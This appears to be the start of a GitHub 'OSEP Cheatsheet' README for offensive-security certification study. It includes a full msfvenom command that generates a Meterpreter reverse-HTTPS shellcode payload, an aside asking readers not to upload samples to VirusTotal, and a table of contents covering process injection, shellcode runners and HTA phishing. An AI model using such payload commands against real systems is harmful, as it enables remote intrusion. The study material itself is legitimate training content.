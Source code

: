 # **OSEP Cheatsheet**

 sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=XXX LPORT=443 EXITFUNC=thread -f csharp | tr -d '\n'

<br>

#### Compiled by: **purg3**
*Under Construction**
***
I hope this helps you on your journey to passing the OSEP. I have pulled together many repo's related to this course. When you do eventually reach the tools list please show some love to the authors. Some of the C#, VBA code is my own and feel free to take and modify how you want. **PLEASE DONT UPLOAD TO VIRUSTOTAL AND IF YOU MUST USE WINDOWS ISOLATE IT FROM THE NET, PERFORM AV TESTING, WIPE, FRESH INSTALL, REPEAT**. If you want to update your AV do so manually. 

Thanks for visiting !

Enjoy creating your own 🦠

<br>

# Table of Contents
<br>

# [DotnetToJScript](#DotNetToJscript-1)
- [Testclass](#testclass)
- [Build Javascript](#Build_JS)
- [Create_HTA](#Create_HTA_file)
- See Phishing for sending your hta file.

<br>

# [CSharp](#CSharp-1)

- [.NET](#_net)
- [Meterpreter_DLL](#Meterpreter_DLL)
- [DLL_Injection](#DLL_Injection)
- [Vanilla_Runner](#Shellcode_Runner)
- [Process_injection](#Process_injection)
- [SharpLoader](#SharpLoader)

<br>

# [Javascript](#Javascript-1)

- [Download&Execute](#DownloadExecute)

<br>

